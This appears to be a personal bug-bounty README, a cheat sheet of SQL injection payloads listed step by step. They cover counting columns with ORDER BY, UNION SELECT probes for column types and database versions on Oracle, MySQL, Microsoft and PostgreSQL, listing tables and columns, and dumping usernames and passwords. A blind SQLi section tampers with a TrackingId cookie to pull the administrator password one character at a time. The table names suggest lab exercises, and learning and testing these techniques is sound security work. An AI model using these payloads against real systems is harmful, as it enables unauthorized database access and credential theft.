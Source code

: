 # Bug-Bounty
This is all about web &amp; bugbounty
<h1>SQLI</h1>
<pre>(1) Determine the number of columns =>
   i)  ' order by 3 -- 
   ii) 'order by 3# 


(2) Determine the data types of the columns =>  
   i) ' UNION SELECT 'a', 'a' from DUAL-- -> Oracle database
   ii) ' UNION SELECT 'a', 'a'#


(3) Output the version of the database => 
  i) ' UNION SELECT banner, NULL from v$version-- (Oracle)
  ii) ' UNION SELECT @@version, NULL# (Microsoft ,MySql)
  iii)' UNION SELECT version(), NULL-- (postgresql)
  
(4) Output the list of table names in the database (postgresql)

   i) ' UNION SELECT table_name, NULL FROM information_schema.tables--
 
(5) Output the column names of the table (postgresql)

    i) ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_xacgsm'--
    
(6) Output the usernames and passwords

    i) ' UNION select username_pxqwui, password_bfvoxs from users_xacgsm--
    ii) ' UNION SELECT NULL,username||'~'||password FROM users--(for retrieving multiple values in a single column)



7)Blind SQl->

   i)Modify the TrackingId cookie, changing it to:
     TrackingId=xyz' AND '1'='1
   ii)TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
   iii)'and (select 'a' from users where username ='administrator')='a'--
   iV)'and (select 'a' from users where username ='administrator' AND            
      LENGTH(password)>1)='a'--
   v)' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='q'--
</pre>
